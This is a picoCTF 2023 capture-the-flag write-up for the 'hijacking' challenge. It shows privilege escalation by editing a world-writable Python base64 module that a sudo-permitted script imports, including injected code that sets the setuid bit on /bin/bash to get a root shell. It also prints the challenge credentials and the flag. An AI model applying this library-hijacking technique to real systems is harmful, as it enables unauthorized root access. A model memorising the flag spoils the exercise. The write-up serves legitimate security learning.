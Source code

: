 ### hijacking

#Medium #BinaryExploitation #picoCTF2023 #privilege_escalation

Author: Theoneste Byagutangaza

#### Description

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

```
saturn.picoctf.net 51345
Username: picoctf
Password: cjWvSK+PS7
```


##### Solution:

```css

┌─[✔]──[alpha@speed:🍑]──[~]:
└──╼ $ ssh -p 51345 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:51345 ([13.59.203.175]:51345)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:51345' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

```css
picoctf@challenge:~$ ls -la
total 24
drwxr-xr-x 1 picoctf picoctf   59 Jan 27 13:55 .
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Jan 27 13:44 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw------- 1 picoctf picoctf   34 Jan 27 13:46 .python_history
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py
-rw------- 1 picoctf picoctf 3781 Jan 27 13:55 .viminfo
```

```css
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)  

```

The `sudo -l` command is used in Unix-like operating systems to list the privileges that the current user has when executing commands with `sudo`

```css
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
picoctf@challenge:~$ 

```

just run the `.server.py` using sudo and python3

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

### **Why is `sys.path` important?**

- **Module Importing**: Python uses `sys.path` to locate modules and packages. If a module isn't found in any of the directories listed in `sys.path`, you'll get an `ImportError`.
    
- **Customizing Imports**: You can modify `sys.path` at runtime to add or remove directories, which can be useful for importing modules from non-standard locations.
    
- **Debugging**: If you're having trouble importing a module, checking `sys.path` can help you understand where Python is looking for the module.

```css
picoctf@challenge:~$ /usr/bin/python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()

```

`picoctf@challenge:~$ ls -la /usr/lib/python3.8/`

![](hijacking/hijacking_list_lib.png)

`rwxrwxrwx`: Shows the permissions for three groups of users:
- **First group** (`rwx`): Permissions for the file owner (read, write, execute).
- **Second group** (`rwx`): Permissions for the group (read, write, execute).
- **Third group** (`rwx`): Permissions for others (read, write, execute).

```css
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py 
```

![](hijacking/hijacking_base64.png)

![](hijacking/hijacking_modify_base64.png)

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Sep 26 19:30 .
drwxr-xr-x 1 root root  51 Jan 27 13:43 ..
-rw-r--r-- 1 root root 103 Sep 26 19:30 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 

```

```css
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py 
```

![](hijacking/hijacking_flag.png)

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Sep 26 19:30 .
drwxr-xr-x 1 root root  51 Jan 27 13:43 ..
-rw-r--r-- 1 root root 103 Sep 26 19:30 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "cjWvSK+PS7"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

```


2nd method

open ` vi /usr/lib/python3.8/base64.py`
paste the below code
```css
import os
os.system("chmod +s /bin/bash")
```

now run server using sudo

```css
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
picoctf@challenge:~$ /bin/bash
bash-5.0$ 
bash-5.0$ exit
exit
picoctf@challenge:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
picoctf@challenge:~$ /bin/bash -p
bash-5.0# ls
bash-5.0# pwd
/home/picoctf
bash-5.0# cd /
bash-5.0# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev	 home  lib32  libx32  mnt    proc  run	 srv   tmp  var
bash-5.0# cd challenge/
bash-5.0# ls
metadata.json
bash-5.0# cat metadata.json 
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "cjWvSK+PS7"}bash-5.0# 

```

```css
bin  boot  challenge  dev  etc	home  lib  lib32  lib64  libx32  media	mnt  opt  proc	root  run  sbin  srv  sys  tmp	usr  var
bash-5.0# cd root
bash-5.0# ls
bash-5.0# pwd
/root
bash-5.0# ls -la
total 12
drwx------ 1 root root   23 Sep 26 19:30 .
drwxr-xr-x 1 root root   51 Jan 28 07:20 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Sep 26 19:30 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
bash-5.0# cat .flag.txt 
picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}
bash-5.0# 

```